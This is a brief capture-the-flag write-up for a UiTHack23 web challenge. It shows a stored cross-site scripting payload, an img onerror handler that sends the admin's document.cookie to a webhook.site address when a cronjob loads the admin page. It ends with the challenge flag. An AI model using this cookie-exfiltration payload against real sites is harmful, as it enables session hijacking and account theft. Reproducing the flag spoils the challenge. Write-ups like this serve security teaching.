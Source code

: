 > # WEB - 150
>
> Bill gates approves this design

## Writeup

Get a dummy server here or anything to listen for requests
![https://webhook.site/]

Add xss script to the form data
`<img src=x onerror="this.src='https://webhook.site/80d09e24-2b3c-440c-aba5-a63ac53515a8/?'+document.cookie; this.removeAttribute('onerror');">`

Cronjob/admin is set to load the admin page every minute. Triggers the script and will send a request with the cookie as parameter to the server.

Connect to the server cat/vim/nano flag.txt

`UiTHack23{xxspl0its_4r3_phun}`

## Ports

Api 5000
client 5050
